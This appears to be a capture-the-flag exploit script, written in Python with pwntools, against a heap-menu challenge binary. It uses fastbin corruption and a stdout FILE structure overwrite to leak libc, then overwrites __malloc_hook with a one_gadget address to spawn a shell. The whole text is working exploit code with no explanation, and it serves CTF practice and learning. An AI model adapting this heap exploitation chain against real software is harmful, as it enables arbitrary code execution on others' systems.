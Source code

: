 ```plain
def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)


add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
delete(1)
delete(0)
edit(0,'\x50')
#duan()
add(0x60,5,p64(0)*9+p64(0x71))
add(0x60,6,p64(0)*3+p64(0xe1))
delete(1)
#duan()
delete(0)
delete(8)

edit(8,'\x70')

edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')

add(0x60,9,'a')
add(0x60,10,'a')
#duan()
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)

add(0x60,10,'a') 

delete(10)
edit(10,p64(malloc_hook-0x23))
#duan()
add(0x60,12,'a')

add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
#duan()
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
#duan()
itr()
```
